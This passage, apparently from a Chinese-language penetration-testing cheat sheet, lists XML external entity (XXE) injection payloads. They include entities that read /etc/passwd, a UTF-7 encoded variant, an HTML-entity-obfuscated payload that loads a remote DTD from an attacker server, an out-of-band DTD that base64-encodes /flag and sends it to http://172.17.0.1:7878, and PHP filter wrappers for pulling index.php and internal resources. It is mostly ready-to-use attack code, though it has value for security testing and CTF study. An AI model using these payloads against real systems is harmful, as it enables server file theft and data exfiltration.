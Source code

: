 ```xml-dtd
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<stockCheck><productId>&example;</productId><storeId>1</storeId></stockCheck>-
```

当使用UTF-7编码时：

```xml-dtd
<!xml version="1.0" encoding="UTF-7"?-->
+ADw-+ACE-DOCTYPE+ACA-foo+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-example+ACA-SYSTEM+ACA-+ACI-/etc/passwd+ACI-+AD4-+ACA-+AF0-+AD4-+AAo-+ADw-stockCheck+AD4-+ADw-productId+AD4-+ACY-example+ADs-+ADw-/productId+AD4-+ADw-storeId+AD4-1+ADw-/storeId+AD4-+ADw-/stockCheck+AD4-
```

#### File:/ Protocol Bypass

如果目标网页使用的是 PHP，可以使用php包装器 `php://filter/convert.base64-encode/resource=` 来访问内部文件而不需要再使用 file:/ 协议。

如果是 Java 的网页，可以使用 `jar:protocol`。

#### HTML 实体

您可以在用html实体编码的实体内创建一个实体，然后调用它来加载dtd。
请注意，使用的HTML实体需要是数字

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x25;&#x64;&#x74;&#x64;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x3E;" >%a;%dtd;]>
<data>
    <env>&exfil;</env>
</data>
```

DTD 示例：

```xml-dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://172.17.0.1:7878/bypass.xml?%data;'>">
%abt;
%exfil;
```

### PHP Wrappers

#### Base64

##### 提取 index.php：

```xml-dtd
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```

##### 提取外部资源：

```xml-dtd
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3">]>
```
